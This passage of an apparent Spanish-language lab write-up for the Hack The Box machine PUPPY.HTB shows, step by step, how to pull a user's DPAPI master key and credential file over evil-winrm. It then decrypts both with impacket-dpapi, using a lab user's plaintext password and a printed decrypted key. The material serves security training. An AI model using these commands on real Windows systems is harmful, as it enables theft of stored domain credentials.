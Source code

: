### Finding DPAPI Master Key

Encontraremos el archivo correspondiente a la clave maestra que necesitamos en el directorio mencionado, lo descargaremos en nuestra máquina utilizando el comando `download` de `evil-wirm-py`

~~~ powershell
evil-winrm-py PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107> download 556a2412-1275-4ccf-b721-e6a0b4f90407 .
~~~

### Finding Credential File

Ahora buscaremos credenciales protegidas para descifrarlas con la clave maestra, descargaremos el siguiente archivo

~~~ powershell
evil-winrm-py PS C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials> download C8D69EBE9A43E9DEBF6B5FBD48B521B9 .
~~~

### Decrypting DPAPI Master Key

Desencriptaremos la clave maestra contenida dentro del archivo que descargamos con la ayuda de la herramienta de `impacket-dpapi`

~~~ bash
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password ChefSteph2025!

Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : 556a2412-1275-4ccf-b721-e6a0b4f90407
Flags       :        0 (0)
Policy      : 4ccf1275 (1288639093)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
~~~

- `-file`: Archivo de clave maestra
- `-sid`: Identificador del usuario
- `-password`: Contraseña del usuario 

### Decrypting DPAPI Credentials

Utilizaremos la clave maestra para desencriptar el archivo de credenciales y verlas en texto claro 

~~~ bash
impacket-dpapi credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84

Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-03-08 15:54:29+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=PUPPY.HTB
Description : 
~~~